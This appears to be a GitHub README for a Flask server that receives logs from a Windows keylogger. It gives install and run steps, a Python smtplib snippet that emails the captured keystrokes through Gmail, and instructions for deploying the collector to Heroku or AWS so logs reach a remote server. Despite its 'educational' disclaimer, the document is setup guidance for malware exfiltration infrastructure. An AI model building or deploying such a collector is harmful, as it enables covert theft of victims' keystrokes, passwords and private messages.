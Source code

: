 # Keylogger Log Server

## Overview
This Flask-based log server receives and stores logs from the Windows-based keylogger (keylogger.c). It supports local operation (e.g., http://127.0.0.1:5000 or http://192.168.1.3:5000), SMTP email transmission, or remote server deployment for receiving logs. The server is designed for educational and ethical auditing purposes in controlled environments with explicit permission.

## Features

Receives keylogger logs via HTTP POST or SMTP email.
Stores logs in a local file (e.g., server_logs.txt) with timestamps.
Lightweight and customizable for local or remote setups.
Supports ethical use in cybersecurity labs.

## Requirements

**OS**: Any OS supporting Python (tested on Windows 11)
**Python**: Version 3.6 or higher
**Dependencies**: Flask (pip install flask), smtplib (standard library for SMTP)
**Network**: Local network access or internet for remote/SMTP setup

## Installation

1. Install Python 3.6+ from python.org.

2. Install Flask:
```bash
pip install flask
```

4. Clone or download the repository:

<pre>```
git clone <repository-url>
cd log-server
```</pre>




5. Ensure the keylogger is configured to send logs to the server’s URL (e.g., http://127.0.0.1:5000/log) or an email address for SMTP.


## Usage

1. Run the Flask server:
```bash
python log_server.py
```


3. The server starts at http://127.0.0.1:5000 (or a specified IP like 192.168.1.3:5000).

4. Logs are received at the /log endpoint (HTTP POST) or via email (SMTP) and saved to server_logs.txt.

5. Stop the server with Ctrl+C.


## Customization
**Local Server**

1. Default setup runs locally:
```bash
python log_server.py
```


3. Update the keylogger’s URL to match the server’s IP/port (e.g., http://192.168.1.3:5000/log).


**SMTP Email Transmission**

1. Modify log_server.py to send logs via email using smtplib:
```python
import smtplib
from email.mime.text import MIMEText

def send_email(log_data, recipient_email):
    msg = MIMEText(log_data)
    msg['Subject'] = 'Keylogger Log'
    msg['From'] = 'your_email@example.com'
    msg['To'] = recipient_email
    with smtplib.SMTP('smtp.gmail.com', 587) as server:
        server.starttls()
        server.login('your_email@example.com', 'your_app_password')
        server.send_message(msg)
---
```

2. Generate an app-specific password from your email provider (e.g., Gmail’s 2-Step Verification settings).

3. Configure the keylogger to call send_email with log data and a recipient email, or have the server forward POST requests as emails.


## Remote Server Deployment

1. Deploy to a cloud platform (e.g., Heroku, AWS EC2):

**Heroku:**

1. Create a Heroku app: heroku create your-app-name.

2. Push the code: git push heroku main.

3. Set dynamic port in log_server.py:
```python
import os
port = int(os.environ.get('PORT', 5000))
app.run(host='0.0.0.0', port=port)
---
```

5. Update the keylogger’s URL to the remote server’s address.


## Considerations

Do not store or transmit sensitive data without encryption.

## Challenges Overcome

1. Resolved networking issues for stable HTTP/SMTP log transmission.
2. Configured Flask for reliable POST request handling.
3. Managed log storage to prevent data loss.
4. Overcame SMTP authentication and remote deployment challenges.

License
This project is for educational purposes only and is not licensed for commercial or unethical use.
